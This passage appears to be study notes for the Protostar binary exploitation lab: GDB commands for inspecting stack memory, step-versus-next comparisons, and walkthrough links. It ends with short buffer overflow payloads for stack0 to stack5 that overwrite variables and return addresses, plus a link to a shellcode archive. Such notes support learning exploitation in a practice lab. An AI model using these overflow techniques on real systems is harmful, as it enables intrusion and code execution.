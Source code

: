 >    `> python print '------------------------'`
>    `> end`
>
> 7. Print Stack Value Formateed
>    + See as Integer (unsigned decimal)
>     - Template  
>        `(gdb) x/u $esp+offset`
>     - Example
>        `(gdb) x/u $esp+0x5c`
>
>    + See as Integer (hexadecimal)
>     - Template  
>        `(gdb) x/x $esp+offset`
>     - Example
>        `(gdb) x/x $esp+0x5c`
>
>    + See as bytes (4 bytes since int is 4 bytes)
>     - Template  
>        `(gdb) x/4b $esp+offset`
>     - Example
>        `(gdb) x/4b $esp+0x5c`
>
>    + See as characters (4 chars since int is 4 bytes)
>     - Template  
>        `(gdb) x/4c $esp+offset`
>     - Example
>        `(gdb) x/4c $esp+0x5c`
>
> 8.  Run gdb with a provided argument:
>    + `python -c "print 'AAAA"" > arg`
>    + `gdb binary`
>    + `(gdb) run < arg`
>
> 9. TUI Mode: https://www.youtube.com/watch?v=PorfLSr3DDI
>    `(gdb) tui reg general`
>    `(gdb) tui reg float`
>
> 10. Using python
>    + `(gdb) python print('A'*76)`
>    + `(gdb) python`
>      `import os`
>      `print('my pid is %d' % os.getpid())`
>

### GDB Command Comparison
> 1. Step vs Next
>   - Step
>      This will go to the next assembly instruction
>      AND will enter into a function
>     `(gdb) s`
>     `(gdb) s [#]`
>               ^optional: number of time to times to step
>   - Next
>      This will go to the next assembly instruction
>      BUT will NOT enter a function and let that function finish
>     `(gdb) n`
>     `(gdb) n [#]`
>               ^optional: number of time to times to step
>
> 2. `break function` VS `break *function`
>   - Break on the first assembly instruction of a function
>      `(gdb) break *function_name`
>   - Break on instruction after function prologue

[Protostar]: https://exploit-exercises.lains.space/protostar/
[Protostar ISO]: https://drive.google.com/drive/folders/0B9RbZkKdRR8qbkJjQ2VXbWNlQzg?usp=sharing
[Reference Stack 0-7]: https://kevinalmansa.github.io/write-ups/Protostar-Stack-Write-up/
[Walkthroughs]: https://www.youtube.com/watch?v=iyAyN3GFM7A&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN
[Walkthrough]: https://www.youtube.com/watch?v=T03idxny9jE&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=13&ab_channel=LiveOverflow
[Simple]: python -c "print('A' * 65)" | ./stack0
[Detailed]: Step-by-Step
[Simple]:  ./stack1 $(python -c "print 'A' * 64 + '\x64\x63\x62\x61'")
[Walkthrough]: https://www.youtube.com/watch?v=iyAyN3GFM7A&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN
[Simple]: python -c "print('A' * 64 + '\x24\x84\x04\x08')" | ./stack3
[Detailed]: Step-by-Step
[Walkthrough]: https://www.youtube.com/watch?v=iyAyN3GFM7A&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN
[Simple]: python -c "print('A' * 76 + '\xf4\x83\x04\x08')" | ./stack4
[Detailed]: Step-by-Step
[Shellcode]: http://shell-storm.org/shellcode/
[Simple]: $ python -c "print('\x90' * 75 + 'BBBB')" | ./stack5
[Detailed]: Step-by-Step
[Walkthrough]: https://www.youtube.com/watch?v=Y1RRda2Wnpw
[Walkthrough]: https://www.youtube.com/watch?v=m17mV24TgwY
[Walkthrough]: https://www.youtube.com/watch?v=IncswlWGn1M